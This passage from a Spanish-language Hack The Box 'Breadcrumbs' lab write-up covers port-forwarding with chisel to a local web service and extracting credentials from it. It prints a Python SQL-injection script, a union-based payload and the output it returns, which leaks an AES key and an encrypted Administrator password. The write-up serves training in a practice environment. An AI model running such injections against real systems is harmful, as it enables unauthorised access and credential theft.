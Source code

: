 Mediante los archivos que se presentan logramos extraer la contraseña de develoment.
![](/assets/images/htb-writeup-breadcrumbs/ssh.png)

Como el usuario develoment, nos dirigimos a c:\Develoment y nos transferimos el archivo Krypter_Linux, Mediante el archivo Krypter_Linux logramos ver que como el usuario administrator ejecuta un servidor web en el puerto 1234. Mediante la herramienta chisel hacemos un port forwarding. En la web vemos esto.

![](/assets/images/htb-writeup-breadcrumbs/sql.png)

Nos creamos un script en python3 para hacer todo mas simple.

```python
#!/usr/bin/python3
def sqlinjection():
    q = input('sql_>')
    payload = urllib.parse.quote_plus(q)
    main_url="http://localhost:1234/index.php?method=select&username=administrator%s&table=passwords"%payload
    r = requests.get(main_url)
    print(r.text)
if __name__ == '__main__':
    import requests, urllib.parse
    while True:
        sqlinjection()
```
Esto consiste en una simple enumeración sql injection union based así que vamos directo al grano.Extraemos los que nos interesa y conseguimos esto.

```python
' union select concat(aes_key,'{space}',password,'{space}',account,'{space}',id) from bread.passwords-- -
selectarray(2) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(16) "k19D193j.<19391("
  }
  [1]=>
  array(1) {
    ["aes_key"]=>
    string(95) "k19D193j.<19391({space}H2dFz/jNwtSTWDURot9JBhWMP6XOdmcpgqvYHG35QKw={space}Administrator{space}1"
  }
}

sql_>
```